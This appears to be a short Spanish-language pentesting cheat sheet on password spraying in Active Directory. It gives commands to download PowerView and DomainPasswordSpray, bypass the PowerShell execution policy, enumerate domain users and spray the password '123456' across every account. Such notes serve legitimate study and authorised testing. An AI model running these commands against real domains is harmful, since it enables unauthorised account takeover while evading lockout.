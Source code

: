 # Password Spraying 

Tags: #AD #Powershell #Windows #Enumeracion 

Técnica utilizada para adivinar simultáneamente las contraseñas de varias cuentas de usuario con un número reducido de intentos de contraseña. Su ventaja principal es proporcionar un método sigiloso para obtener acceso a varias cuentas de usuario sin activar el bloqueo de cuentas. 

```bash 
# Descargamos la utilidad en nuestra maquina de atacante para despues pasar el archivo a la maquina victima que esta utilizando PowerShell

❯ wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
❯ wget https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1
```

```powershell
❯ powershell -ep bypass                   # Politica que nos permite ejecutar scripts en Powershell
 	# ep = Ejecutar politicas 


# Enumeracion de usuarios 
❯ . .\PowerView.ps1                       # Importar el modulo PS1
❯ Get-DomainUser | select-Object -ExpandProperty cn | Out-File user.txt        # Enumeracion de usuarios y el resultado lo guardamos en un archivo llamado user.txt


❯ . .\DomainPasswordSpray.ps1             # Importar el modulo para poder usar la funcion de 'Invoke' 
❯ Invoke-DomainPasswordSpray -UserList .\user.txt -Password 123456 -Verbose 
	# Password = Hacemos que la pasword '123456' la pruebe en todos los usuarios de la lista 'user.txt'
	# UserList = Lista de usuarios
```